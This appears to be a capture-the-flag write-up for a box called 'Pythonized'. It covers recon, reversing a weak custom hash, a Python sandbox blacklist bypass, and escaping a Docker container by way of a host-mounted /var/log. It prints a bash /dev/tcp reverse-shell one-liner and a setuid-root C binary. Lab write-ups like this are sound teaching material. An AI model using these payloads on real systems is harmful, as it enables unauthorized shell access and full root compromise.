  Pythonized | Rooting Through Logic & Import Bypasses
💡 Overview

As the name hints, this box revolves around exploiting a custom Python-based logic to gain access and escalate privileges. Each stage of exploitation acts like a puzzle piece — once combined, they pave a direct path to root access. In this write-up, we'll dissect every layer of the box, from initial recon to post-exploitation.
📡 Reconnaissance

We begin with an nmap scan to uncover open ports:

nmap -sV -A <ip>

🔍 Results:

    Port 22: SSH

    Port 80: HTTP

The web service looks minimal. Clicking on Login or Sign up doesn't yield much — just a basic static interface.

However, every page ends with .html, so we run a gobuster scan with .html extensions:

gobuster dir -u http://<ip> -w /usr/share/wordlists/dirb/common.txt -x html

🕵️ We discover a juicy path: /admin.html.
🔑 Extracting Credentials via "Hash" Reversal

Inspecting the HTML + JS source reveals a custom password "hashing" function. But it’s not a true hash — it's reversible. The output is directly influenced by the input length and character position.

🔓 The issue: the hashing function doesn’t obfuscate input data, and the output length is a direct multiple of the input — making it trivial to reverse-engineer.

We write a Python script that maps ASCII characters against the hashing output to deduce the original string.

    ✅ Cracked Password: spaghetti1245
    👤 Username: connor

🎯 Gaining Access — or Not?

Using the creds on the login page redirects us to:

/super-secret-admin-testing-panel.html

Surprisingly, we realize this page is not protected — no cookie required. 🤯
💻 Remote Code Execution via Python Sandbox

This page contains a form that executes Python code server-side. We begin testing with basic inputs.

However:

    import, exec, and other functions are blacklisted.

    But the filter checks for "import " (with space) — not __import__.

💥 Bypass:

__import__('os').system('bash -i >& /dev/tcp/<IP>/1234 0>&1')

🎯 Reverse shell acquired — we’re root inside a Docker container.
🔁 SSH Access via Connor

Using the earlier credentials, we SSH into the host machine directly:

ssh connor@<ip>

We now have access outside the container, but not root.
🔧 Privilege Escalation via Docker Escape

Running linPEAS.sh inside the container, we find:

/var/log is mounted from the host

Since we’re root inside the container, we can manipulate files on the host's /var/log directory.

We craft a setuid-root binary and place it in /var/log:

// rootme.c
#include <stdlib.h>
int main() {
    setuid(0); setgid(0);
    system("/bin/bash");
    return 0;
}

Compile & set permissions:

gcc rootme.c -o rootme
chmod +s rootme

Then execute it on the host via the SSH session:

./rootme

🔥 We are root on the host system.
🧩 Bonus: Sandbox Blacklist Logic

Reviewing the server-side filter logic shows this:

if "import " in input:
    block()

This poor pattern allows __import__('os') to bypass the check entirely.

Had the blacklist checked for "import" (no space), this could have been prevented. Lesson: blacklisting specific keywords is brittle and can be bypassed.
🏁 Final Thoughts

This box was a brilliant example of:

    Weak custom crypto logic

    Python sandbox escape

    Docker container privilege escalation via shared volumes
